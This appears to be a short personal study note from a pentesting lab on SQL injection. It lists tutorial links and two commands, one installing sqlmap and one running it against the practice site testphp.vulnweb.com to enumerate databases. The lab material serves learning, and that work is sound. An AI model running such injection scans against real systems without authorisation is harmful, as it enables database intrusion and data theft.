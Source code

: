 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/pentesting/d3-21-feb/lab-3/"}
---
```


### *Imp links :*
- [manual](https://www.hackingarticles.in/manual-sql-injection-exploitationstep-step/) (will study later)
- [sql](https://www.geeksforgeeks.org/use-sqlmap-test-website-sqlinjection-vulnerability/) (will study today)
- After opening kali:  [refere this](https://www.geeksforgeeks.org/use-sqlmaptest-website-sql-injection-vulnerability/)

1) sudo apt-get install sqlmap
2) sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs

![attachments/Pasted image 20250309122910.png](/img/user/Cybersecurity/Pentesting/D3_21%20Feb/attachments/Pasted%20image%2020250309122910.png)

#                                    ---****---
